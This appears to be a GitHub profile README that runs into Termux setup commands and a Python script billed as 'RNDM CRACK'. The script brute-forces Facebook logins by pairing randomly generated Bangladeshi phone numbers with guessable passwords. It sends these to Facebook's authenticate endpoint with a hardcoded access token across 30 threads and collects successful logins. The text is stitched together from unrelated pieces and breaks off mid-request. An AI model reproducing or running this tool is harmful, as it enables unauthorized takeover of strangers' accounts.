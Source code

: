 
pkg install -y \
  build-essential \
  binutils \
  pkg-config \
  python3 \
  nodejs-lts
npm config set python python3
node -v
rm_noorafridi123

git clone https :// github . Com /Noorafridi/noor

cd noorafridi

git pull

python noorafridi.py
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
Nooriqbal123/Nooriqbal123 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
#--------------------- [ INFO ] -------------------#
#DEVELOPER : NOOR AFRIDI
#CODE BY : NOOR AFRIDI
#OPEN SOURCE BY : BHOOT-X [NOOR AFRIDI]
#TOOL : RNDM CHECK
#INJOY THE OPEN SOURCE 
#ALLAH HAFIZ
#--------------------- [ MODEL ] -------------------#
import os
import time
import sys
from os import path
import urllib
import pip
import base64
import zlib
from bs4 import BeautifulSoup as sop
from bs4 import BeautifulSoup
try:
        import os,requests,json,time,re,random,sys,uuid,string,subprocess
        from string import *
        from concurrent.futures import ThreadPoolExecutor as tred
except ModuleNotFoundError:
        os.system(f'pip install requests futures==2 > /dev/null')
except:pass
#--------------------- [ SEX ] -------------------#
jan = []
loop=0
oks=[]
cps=[]
twf=[]
#--------------------- [ CODE ] -------------------#
W='\033[1;37m' #WHITE
G='\033[38;5;46m'
F='\033[38;5;45m'
R='\033[38;5;196m'
#--------------------- [ LOGO ] -------------------#
fuck = """
88""Yb 88  88  dP"Yb   dP"Yb  888888 
88__dP 88  88 dP   Yb dP   Yb   88   
88""Yb 888888 Yb   dP Yb   dP   88   
88oodP 88  88  YbodP   YbodP    88   
===================================
[+] ADMIN : NOOR AFRIDI
[+] GITHUB: NOOR AFRIDI
[+] TOOL  : RNDM CRACK
[+] STATES: OPEN SOURCE
=================================== """
#--------------------- [ DEF-LOGO X CLEAR ] -------------------#
def x():
    os.system('clear')
    print(fuck)
#--------------------- [ DEF-XNXX ] -------------------#
def xnxx():
    print(f'{W}===================================')
#--------------------- [ MAIN ] -------------------#
def bhootxx():
    x()
    print('[1] RNDM CRACK')
    print('[2] EXIT');xnxx()
    xtx = input('[?] CHOICE : ')
    if xtx in '1':
        rndmx()
    elif xtx in '2':
        print('Allah hafiz ')
        os.system('exit')
#--------------------- [ RNDM ] -------------------#
def rndmx():
    x()
    print('[+] BD SIM CODE : 017,019,018,016 ');xnxx()
    dog = input('[?] CODE : ')
    x()
    try:
        print('[+] LIMIT : 999,9999,99999');xnxx()
        limit = int(input('[?] LIMIT : '))
    except ValueError:
            limit = 5000
    for nmbr in range(limit):
            xxx = ''.join(random.choice(string.digits) for _ in range(8))
            jan.append(xxx)
    with tred(max_workers=30) as tanox:
            x()
            tl = str(len(jan))
            print(f'[+] TOTAL UID : {str(len(jan))}')
            print(f'[+] USE JAPAN VPN COMING MORE OK IDS.......');xnxx()
            for psx in jan:
                ids = dog+psx
                passlist = [psx,ids,ids[:8],ids[:7],'bangla']
                tanox.submit(sexx,ids,passlist)
    xnxx()
    print(f'[+] TOTAL OK -{str(len(oks))}')
    xnxx()
#--------------------- [ MTHD ] -------------------#
def sexx(ids,passlist):
        global loop
        global oks
        sys.stdout.write(f'\r\r[+] [BHOOT FIND] [{loop}] [OK:-{len(oks)}]')
        sys.stdout.flush()
        try:
                for pas in passlist:
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        random_seed = random.Random()
                        adid = str(''.join(random_seed.choices(string.hexdigits, k=16)))
                        device_id = str(uuid.uuid4())
                        cat = {
                        
                        
                        
                        
                        
                                'adid':adid,
                                'format':'json',
                                'device_id':device_id,
                                'email':ids,
                                'password':pas,
                                'generate_analytics_claims':'1',
                                'credentials_type':'password',
                                'source':'login',                              
                                'error_detail_type':'button_with_disabled',                                
                                'enroll_misauth':'false',                             
                                'generate_session_cookies':'1',
                                'generate_machine_id':'1',
                                'fb_api_req_friendly_name':'authenticate',
                        }
                        
                        
                        
                        
                        
                        bhoot={
                        
                        
                        
                        
                        
                                'Authorization':f'OAuth {accessToken}',
                                'X-FB-Friendly-Name':'authenticate',
                                'X-FB-Connection-Type':'unknown',
                                'User-Agent':None,
                                'Accept-Encoding':'gzip, deflate',
                                'Content-Type': 'application/x-www-form-urlencoded',
